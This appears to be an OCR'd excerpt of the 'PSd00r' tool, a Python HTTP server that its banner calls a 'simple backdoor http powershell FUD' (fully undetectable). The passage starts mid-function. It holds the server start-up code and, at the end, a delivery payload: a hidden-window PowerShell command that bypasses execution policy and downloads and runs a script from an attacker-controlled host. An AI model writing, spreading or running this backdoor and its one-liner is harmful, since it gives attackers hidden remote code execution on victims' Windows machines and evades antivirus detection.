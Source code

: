 ``` python
            print(post_body)
            self.send_response(200)
            self.send_header('Content-type','text/plain')
            self.end_headers()


_author  = 'mh4x0f '
_version = '0.1'

def banner():
    print("""

______  _____     _ _____  _____
| ___ \/  ___|   | |  _  ||  _  |
| |_/ /\ `--.  __| | |/' || |/' |_ __
|  __/  `--. \/ _` |  /| ||  /| | '__|
| |    /\__/ / (_| \ |_/ /\ |_/ / |
\_|    \____/ \__,_|\___/  \___/|_|

simple backdoor http powershell FUD
    """)

if __name__ == '__main__':
    banner()
    parser = argparse.ArgumentParser(
    description="PSd00r - simple backdoor http powershell FUD")
    parser.add_argument('-i','--ip-addr',  
    dest='ip',help='set the ip address to server',default='0.0.0.0')
    parser.add_argument('-p','--port',  
    dest='port',help='set the port the handler',default=8000)
    parser.add_argument('-v','--version',
    action='version', dest='version',version='%(prog)s v{}'.format(_version))
    parser_load = parser.parse_args()
    print('Author: {} P0cL4bs Team'.format(_author))
    print('Version: {} dev\n'.format(_version))
    print('[*] Starting the server...')
    print('[*] HOST: {}:{}'.format(parser_load.ip,parser_load.port))
    try:
        server = HTTPServer((parser_load.ip, parser_load.port), myHandler)
        d = dict()
        d['SERVER'] = parser_load.ip
        d['PORT'] = parser_load.port
        code = code.format(**d)
        server.serve_forever()
    except KeyboardInterrupt:
        print '^C received, shutting down the web server'
        server.socket.close()

```

payload:
powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c IEX ((New-Object Net.WebClient).DownloadString("http://IPATTACKER:PORTATTACKER/connect"))

